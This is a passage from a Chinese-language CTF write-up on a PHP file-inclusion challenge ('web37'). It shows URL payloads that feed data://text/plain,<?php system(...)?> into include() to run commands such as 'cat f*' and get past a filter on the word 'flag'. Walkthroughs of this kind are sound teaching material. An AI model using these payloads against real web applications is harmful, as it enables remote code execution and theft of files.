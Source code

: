 得到flag

------

<div style="page-break-after:always"></div>

### 类型二

变量接收并过滤传入的数据,include来包含文件

#### web37

分析

![image-20231216115759840](照片/image-20231216115759840.png)

$c没有执行, 而是包含文件

先看一下32的命令

```
/?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>

前半段/?c=include$_GET[a]?>其实就是用include来包含文件，前面是因为有过滤才写成这个形式，可以简写为c=include（a），然后传入一个参数a，然后用a=data://text/plain,<?php system("命令");?>来执行命令
```

这题中已经给你了一个include（$c），所以我们直接直接执行命令就行

![image-20231216115810604](照片/image-20231216115810604.png)

但是这里的c，过滤掉了大小写的flag

![image-20231216115820306](照片/image-20231216115820306.png)

构建命令

```
/?c=data://text/plain,<?php system("cat f*");?>
```

![image-20231216115850199](照片/image-20231216115850199.png)
